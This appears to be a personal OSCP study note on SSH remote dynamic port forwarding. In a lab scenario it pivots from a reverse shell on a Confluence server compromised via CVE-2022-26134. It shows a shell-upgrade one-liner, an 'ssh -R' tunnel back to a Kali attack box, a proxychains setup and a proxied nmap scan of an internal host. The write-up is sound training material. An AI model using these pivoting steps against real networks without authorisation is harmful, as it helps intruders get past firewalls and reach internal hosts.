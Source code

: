 ```yaml
---
aliases:
  - remote dynamic port forwarding
  - SSH remote dynamic port forwarding
  - remote dynamic port forward
---
```

# Remote Dynamic Port Forwarding
Just like with [local port forwarding](local-port-forwarding.md), [SSH remote port forwarding](remote-port-forwarding.md) is limited in that *the connection can only be made with a single host* per [SSH](../../../networking/protocols/SSH.md) connection. For situations where we *can't create a listening port on the compromised machine* (dur to [firewalls](../../../cybersecurity/defense/firewalls.md) most likely), and we *want to multiple connections* we can use remote dynamic port forwarding. 

Remote dynamic port forwarding is similar to [dynamic port forwarding](dynamic-port-forwarding.md) but the SSH client and server are in the *remote port forwarding configuration*. In other words,  the listening port is *opened on the SSH server* and the *SSH client forwards the traffic* to the destination hosts. Additionally, remote dynamic port forwarding takes advantage of the [SOCKS](dynamic-port-forwarding.md) protocol (just like local dynamic port forwarding does). 
![](../../oscp-pics/remote-dynamid-port-forwarding-1.png)
## Scenario
Assume the same scenario as in the other port forwarding notes in this directory (and pictured above). However, this time we've found *another server in the [DMZ](../../../networking/design-structure/DMZ.md)* (same [subnetting](../../../PNPT/PEH/networking/subnetting.md) as `CONFLUENCE01`) called `MULTISERVER03`.

The firewall in place prevents us from connecting to anything other than port 8090 on `CONFLUENCE01` from our Kali attack box, but we want to enumerate `MULTISERVER03` from Kali. We can use remote dynamic port forwarding via the [`ssh` command](../../../CLI-tools/ssh-command.md) to create the following remote dynamic port forwarding setup:
![](../../oscp-pics/remote-dynamic-port-forwarding-2.png)
### Compromising `CONFLUENCE01`
Assume we've established a [revshell](../../../cybersecurity/TTPs/exploitation/rev-shell.md) on `CON01` via the same CVE as before ([_CVE-2022-26134_](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html)). Once we've got the revshell, the SSH session will be initiated here and connect back to our Kali machine. 

Remember to establish a [TTY](../../../computers/linux/terminal-tty-shell.md) first:
```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<in$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### `ssh -R`
To setup a remote dynamic port forwarding connection with OpenSSH we use the `-R` flag. This is the *same flag* as setting up a regular (non-dynamic) remote port forwarding connection, but the difference is *we pass a single socket to `-R` instead of two*:
```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 9998 kali@192.168.118.4

Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.118.4 (192.168.118.4)' can't be established.
ECDSA key fingerprint is SHA256:OaapT7zLp99RmHhoXfbV6JX/IsIh7HjVZyfBfElMFn0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
kali@192.168.118.4's password:
```
The socket we give to `ssh -R` is port `9998` on our Kali machine. OpenSSH knows that when you use `-R` with just a port number and then follow with `<username>@<IP address>` that the port is in reference to a port on the target host for the SSH connection.

When we issue this command, OpenSSH will establish an SSH connection back to our Kali box and then *bind a SOCKS proxy to port 9998 on our [loopback](../../../networking/routing/loopback.md) interface*.  
### Proxychains
Now that the SOCKS proxy is bound, we can use [Proxychains](dynamic-port-forwarding.md#Proxychains) (just like in regular dynamic port forwarding) to tunnel traffic over the SOCKS port. First, we have to edit `/etc/proxychains4.conf` *on our Kali machine* again. Then end of it should read:
```bash
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
```
#### Nmap Over SOCKS via Proxychains
Now we can run whatever command we want to scan `MULTISERVER03` with (as long as it can handle the SOCKS protocol):
```bash
kali@kali:~$ proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-20 06:25 EDT
Initiating Connect Scan at 06:25
Scanning 10.4.50.64 [20 ports]
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.50.64:22 <--socket error or timeout!
...
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.50.64:135  ...  OK
Discovered open port 135/tcp on 10.4.50.64
Completed Connect Scan at 06:28, 210.26s elapsed (20 total ports)
Nmap scan report for 10.4.50.64
Host is up, received user-set (6.7s latency).
Scanned at 2022-07-20 06:25:25 EDT for 210s

PORT     STATE  SERVICE       REASON
21/tcp   closed ftp           conn-refused
22/tcp   closed ssh           conn-refused
23/tcp   closed telnet        conn-refused
25/tcp   closed smtp          conn-refused
53/tcp   closed domain        conn-refused
80/tcp   open   http          syn-ack
110/tcp  closed pop3          conn-refused
111/tcp  closed rpcbind       conn-refused
135/tcp  open   msrpc         syn-ack
139/tcp  closed netbios-ssn   conn-refused
143/tcp  closed imap          conn-refused
443/tcp  closed https         conn-refused
445/tcp  closed microsoft-ds  conn-refused
993/tcp  closed imaps         conn-refused
995/tcp  closed pop3s         conn-refused
1723/tcp closed pptp          conn-refused
3306/tcp closed mysql         conn-refused
3389/tcp open   ms-wbt-server syn-ack
5900/tcp closed vnc           conn-refused
8080/tcp closed http-proxy    conn-refused

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 210.31 seconds
```

> [!Resources]
> - [_SOCKS_](https://en.wikipedia.org/wiki/SOCKS)
> - [_Proxychains_](https://github.com/rofl0r/proxychains-ng)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
